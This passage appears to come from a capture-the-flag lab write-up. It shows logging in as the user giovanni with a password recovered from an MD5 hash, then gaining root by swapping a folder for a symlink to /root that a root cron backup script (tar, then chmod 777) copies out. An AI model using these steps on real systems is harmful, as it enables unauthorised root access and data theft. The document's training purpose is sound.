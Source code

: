 If we use some online md5 decriptor we can see that the password encripted is *expelled*


Now we exit from the database and try to switch user with this password.

```bash
su giovanni
expelled
```

We enter into the giovani's account! We are in!
We can see the user flag.
```bash
cat /home/giovanni/user.txt
```


## Pivilege excalation

In the giovanni's workspace there are a few files. On one of them we can notice the timestamp of the file keep changing every minute so, we can deduce there is a cronjob replacing every minute the file.

We can search for a filename called backup
```bash
find / -name "*backup*" 2> /dev/null
```

We see a bunch of files called backup
There is one file called backup.sh
We can inspect that file:
```bash
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

We can replace the course folder allocated at work with a symlink to /root.
We have to wait a minute to the cronjob to take effect and all the content of root will be copied at our courses folder.

To create the symbolic link:
```bash
rm -rf courses
ln -s /root courses
```
*Wait 1 minute*

We can grab the flag!
```bash
cd courses
cat root.txt
```


